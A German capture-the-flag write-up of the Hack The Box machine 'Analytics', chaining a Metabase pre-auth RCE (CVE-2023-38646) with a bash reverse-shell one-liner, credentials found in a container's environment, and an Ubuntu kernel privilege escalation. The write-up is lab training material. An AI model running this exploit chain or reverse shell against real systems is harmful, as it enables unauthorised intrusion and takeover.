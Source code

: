 #writeup/provider-box

Erstellt am 2024-08-10

## Box Info 

| Autor | Provider | OS  | Typ | Schwierigkeit |
| --- | --- | --- | --- | ------------- |
| idle | HTB | :SiLinux: | Box | ? |

```
name:   analytics
adress: 
```

---
## Enumeration

Mit `nmap` können die offenen Ports enumeriert werden:

```bash
nmap -sT -p- --min-rate 1500 -v TARGETIP -oA nmap/full_tcp
```

![Nmap tcp](res/nmap_tcp.png)

Die Frontpage, die der Webserver auf Port 80 bereitstellt, sieht ziemlich langweilig aus. Bietet aber eine Login Möglichkeit an.

![frontpage](res/frontpage.png)

Der Login verlinkt zu der Subdomain `data.analytical.htb`.

![login](res/subdomain-login.png)

Die Login Seite lässt auf die Verwendung von `Metabase` schließen.
Nachforschungen ergaben einen möglichen Exploit beschrieben in [Metabase Pre-Auth RCE](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396)von shamooo sowie einen Exploit auf [Github](https://github.com/kh4sh3i/CVE-2023-38646).

## Foothold

Nach einigem Herumprobieren mit dem Exploit, stellt sich heraus, dass der falsche Payload benutzt wird. Eine Alternative bietet Pyr0sec in seinem [Github](https://github.com/Pyr0sec/CVE-2023-38646)] an.

Listener starten und exploiten.
```bash
python exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1'
```

Der Listener empfängt eine Verbindung als `metabase` user.

![revshell](res/revshell.png)

## Privesc

### Container escape

Nach kurzer Enumeration des Systems, stellt sich heraus, dass der Webserver in einem Container läuft. Das Überprüfen des Environments mit dem `env` Befehl offenbart eine Benutzer Passwort Kennung, die per SSH ausprobiert werden kann.

<details>
<summary>Spoiler warning: SSH-Creds</summary>
metalytics:An4lytics_ds20223#
</details>

Nach Login liegt im Homeverzeichnis die Userflag.

### Root

Mit Zugriff zur tatsächlichen Maschine ist eine Enumeration des Systems mit `linpeas` möglich. Das Resultat der Enumeration ist eine anfällige Ubuntu Kernel Version. Der entsprechende Exploit ist in g1vis Github zu finden [CVE-2023-2640 & CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).

Der Exploit wird auf den Server transferiert und ausgeführt.

![Exploit](res/cve-2023-2640_cve-2023-32629.png)  

Anschließend ist es möglich die Rootflag zu exfiltrieren.

![Rootflag](res/rootflag.png)


---
## Todo's

- [x] analytics publish me ➕ 2024-08-10 ✅ 2024-08-10
- [x] analytics pwnd ➕ 2024-08-10 ✅ 2024-08-10
- [x] analytics User Flag ➕ 2024-08-10 ✅ 2024-08-10
- [x] analytics Root Flag ➕ 2024-08-10 ✅ 2024-08-10